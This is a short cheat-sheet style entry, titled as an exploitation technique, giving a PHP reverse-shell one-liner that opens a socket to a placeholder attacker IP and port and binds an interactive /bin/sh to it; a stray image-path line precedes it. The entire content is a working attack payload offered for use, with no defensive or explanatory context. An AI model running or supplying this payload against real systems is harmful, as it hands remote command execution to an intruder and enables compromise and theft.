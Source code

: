 # [Exploitation] Reverse shell (fsockopen one-liner) --php
php -r '$s=fsockopen("<attacker_ip>",<port>);exec("/bin/sh -i <&3 >&3 2>&3");'
